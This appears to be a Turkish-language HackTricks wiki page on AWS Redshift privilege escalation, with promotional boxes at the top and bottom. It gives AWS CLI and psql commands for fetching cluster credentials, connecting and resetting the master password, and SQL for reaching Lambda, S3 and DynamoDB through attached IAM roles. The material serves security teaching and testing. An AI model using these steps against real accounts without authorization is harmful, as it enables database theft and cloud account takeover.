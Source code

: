 # AWS - Redshift Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Redshift

RDS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Bu izinlerle **tüm kümelerin bilgilerini** (isim ve küme kullanıcı adı dahil) alabilir ve **erişim için kimlik bilgilerini** edinebilirsiniz:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Olası Etki:** Veritabanlarının içinde hassas bilgileri bulmak.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Bu izinlerle **tüm kümelerin bilgilerini** alabilir ve **erişim için kimlik bilgilerini** edinebilirsiniz.\
Postgres kullanıcısının, kimlik bilgilerini almak için kullanılan **IAM kimliğinin izinlerine** sahip olacağını unutmayın.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Olası Etki:** Veritabanlarının içinde hassas bilgileri bulmak.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

AWS CLI üzerinden iç postgres (redshit) kullanıcısının **ana şifresini değiştirmek** mümkündür (bence ihtiyaç duyduğunuz izinler bunlar ama henüz test etmedim):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potansiyel Etki:** Veritabanlarında hassas bilgileri bulmak.

## Harici Servislere Erişim

{% hint style="warning" %}
Aşağıdaki tüm kaynaklara erişmek için **kullanılacak rolü belirtmeniz** gerekecek. Bir Redshift kümesi **kullanabileceğiniz bir AWS rolü listesi atayabilir** eğer **ARN'yi biliyorsanız** ya da sadece atanan varsayılanı kullanmak için "**default**" ayarlayabilirsiniz.

Ayrıca, [**burada açıklandığı gibi**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift, daha fazla erişim elde etmek için rolleri birleştirmeye de izin verir (ilk rol ikinci rolü üstlenebiliyorsa) ancak sadece **virgül** ile **ayırarak**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) adresinde açıklandığı gibi, **redshift'ten bir lambda fonksiyonunu çağırmak** mümkündür:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) adresinde açıklandığı gibi, **S3 bucket'larına okuma ve yazma yapmak mümkündür**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) adresinde açıklandığı gibi, **dynamodb'dan veri almak** mümkündür:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Veri sağlayan Amazon DynamoDB tablosu, Amazon DynamoDB tablosunun bulunduğu AWS Bölgesini belirtmek için [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) seçeneğini kullanmadığınız sürece, kümenizle aynı AWS Bölgesinde oluşturulmalıdır.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) adresini kontrol edin.

## Referanslar

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
